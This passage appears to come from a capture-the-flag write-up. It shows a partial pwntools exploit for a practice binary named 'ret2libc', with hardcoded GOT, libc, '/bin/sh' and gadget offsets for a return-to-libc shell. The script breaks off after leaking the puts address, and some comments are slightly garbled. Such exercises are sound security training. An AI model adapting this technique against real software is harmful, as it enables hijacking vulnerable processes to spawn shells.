 ![image-20220107223357377](/assets/img/2022/image-20220107223357377.png)

exp:

```python
from pwn import *


r = process('./ret2libc', env={"LD_PRELOAD":"./libc-2.27.so"})
# context.log_level="debug"
# raw_input(">>>")

puts_got_addr = 0x0000000000601018 # R_X86_64_JUMP_SLOT  ts@GLIBC_2.2.5
puts_libc_offset = 0x00000000000809c0  # 512 FUNC    GLOBAL FAULT   13 _IO_puts@@GLIBC_2.2.5
sh_offset = 0x00000000001b3e9a # /bin/sh
system_libc_offset = 0x000000000004f440  #  45 FUNC    WEAK   FAULT   13 system@@GLIBC_2.2.5
# pop_rdi = 0x00000000004007d3 # pop rdi ; ret
pop_rdi_libc_offset = 0x000000000002155f # pop rdi ; ret
ret = 0x000000000040053e # ret

r.recvuntil('hex: ')
r.send(hex(puts_got_addr))
r.recvuntil('Content: ')
```